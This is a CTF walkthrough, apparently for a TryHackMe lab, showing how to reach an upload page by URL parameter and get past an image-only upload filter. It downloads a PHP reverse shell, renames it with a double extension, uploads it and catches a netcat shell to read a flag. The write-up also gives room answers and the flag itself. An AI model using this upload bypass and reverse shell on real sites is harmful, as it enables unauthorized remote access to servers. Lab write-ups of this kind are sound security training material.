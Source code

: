 ```yaml
---
description: Web Exploitation - GET ; Upload ; Reverse Shell
---
```


# The Elf Strikes Back!

## Web Exploitation

{% embed url="https://www.youtube.com/watch?v=F\_nTIX-q32k&" %}

Open the site

![](../.gitbook/assets/image%20%282%29.png)

> You have been assigned an ID number for your audit of the system: **`ODIzODI5MTNiYmYw`**
>
> http://10.10.236.79/?id=ODIzODI5MTNiYmYw

![](../.gitbook/assets/image%20%2811%29.png)

What string of text needs adding to the URL to get access to the upload page?

{% hint style="success" %}
?id=ODIzODI5MTNiYmYw
{% endhint %}

![](../.gitbook/assets/image%20%287%29.png)

What type of file is accepted by the site?

{% hint style="success" %}
Image
{% endhint %}

Bypass the filter and upload a reverse shell.

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

Change the following parameters in the file

![](../.gitbook/assets/image%20%2810%29.png)

![](../.gitbook/assets/image%20%2814%29.png)

Tried /uploads, /images, /media, /resources

![](../.gitbook/assets/image%20%289%29.png)

In which directory are the uploaded files stored?

{% hint style="success" %}
/uploads/
{% endhint %}

![](../.gitbook/assets/image%20%284%29.png)

Activate your reverse shell and catch it in a netcat listener!

{% hint style="success" %}
No answer needed
{% endhint %}

![](../.gitbook/assets/image%20%288%29.png)

What is the flag in /var/www/flag.txt?

{% hint style="success" %}
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
{% endhint %}

